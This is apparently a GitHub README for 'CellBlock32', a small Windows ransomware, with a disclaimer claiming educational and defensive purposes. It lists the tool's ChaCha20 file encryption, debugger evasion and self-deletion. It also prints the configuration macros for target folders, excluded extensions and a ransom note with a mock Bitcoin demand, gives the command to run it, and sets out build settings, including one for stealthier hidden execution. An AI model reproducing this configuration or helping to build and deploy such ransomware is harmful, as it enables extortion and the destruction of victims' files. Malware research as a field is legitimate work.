 # CellBlock32

> 🚨 **DISCLAIMER:**  
> This tool is provided **solely** for educational, research, and defensive-security purposes.  
> Do **not** run CellBlock32 against any system you do not own or have **explicit** permission to test.  
> Unauthorized or malicious use is **illegal** and the authors disclaim any liability for damages or legal consequences arising from misuse.

[![cellblock32.png](https://i.postimg.cc/C11DjDjx/cellblock32.png)](https://postimg.cc/CZ3z0RP3)

CellBlock32 is a customizable ransomware for Windows. Built without the C runtime (CRT), its binary size stays under 15KB while retaining functionality like multithreading, debugger evasion, and self-deletion.

---

### Features

- ChaCha20 stream cipher
- Recursive, multithreaded file encryption
- Customizable ransom note dropped post-encryption
- Debugger detection and process termination
- Optional self-deletion after execution

---

### Configuration

Customize behavior by editing the macros in `config.h` before compiling:

```c
/*----------------------------------------------------------------------------------------------*/


#define ENCRYPT_EXT_W      L".pwned"    // Encrypted file extension



#define SIGNATURE          0x646e7770   //  Magic bytes for encrypted files ('pwnd')



//#define DECRYPTOR         // Uncomment to build as decryptor



#define RANSOM_MODE         // Drop ransom note



#define SILENT_MODE         // Suppress all STDOUT



#define DEBUGGER_EVASION    // Exit if debugger is detected



#define SELF_DELETION       // Self-delete after execution



#define CONFIG_TARGET_DIRS \            // Directories to recursively encrypt or decrypt
    L"C:\\Users\\Public", \
    NULL 



#define CONFIG_BLACKLISTED_EXTS \       // File extensions to exclude from processing
    ENCRYPT_EXT_W,               \
    L".exe", L".dll", L".sys", L".msi", \
    NULL



#define CONFIG_RANSOM_NOTE \                   
    "YOUR FILES HAVE BEEN ENCRYPTED!\r\n"  \
//  "This is not a joke. Want your data restored?\r\n"  \
//  "Send 0.5 BTC to the address below:\r\n"    \
//  "1MockBTCAddrxxxxxxxxxxxxxxxxxx\r\n"    \
//  "You have 48 hours.\r\n"    \

/*----------------------------------------------------------------------------------------------*/
```

---

### Usage

No command-line arguments required. CellBlock32 will begin encrypting or decrypting files recursively from the path defined in `config.h`. Once complete, it will drop a ransom note and self-delete.

```powershell
.\CellBlock32.exe
```


---

### Build

**Visual Studio**  
1. Open `CellBlock32.sln` in Visual Studio  
2. Set **Configuration** to `Release` and **Platform** to `x64`  
3. Go to **Project → Properties** and configure:  
   - **C/C++ → Code Generation → Runtime Library:** `Multi-threaded (/MT)`  
   - **C/C++ → Code Generation → Enable C++ Exceptions:** `No`  
   - **C/C++ → Code Generation → Security Check:** `Disable Security Check (/GS-)`
   - **C/C++ → Code Generation → Basic Runtime Checks:** `Default`  
   - **C/C++ → General → SDL checks:** `No (/sdl-)`  
   - **C/C++ → Optimization → Whole Program Optimization:** `No` 
   - **Linker → Debugging → Generate Debug Info:** `No`  
   - **Linker → Manifest File → Generate Manifest:** `No`  
   - **Linker → Input → Ignore All Default Libraries:** `Yes (/NODEFAULTLIB)`  
   - **Linker → Advanced → Entry Point:** `main`  
   - **Linker → System → Subsystem:** `Console` (use `Windows` for stealthier execution — it hides the console window)



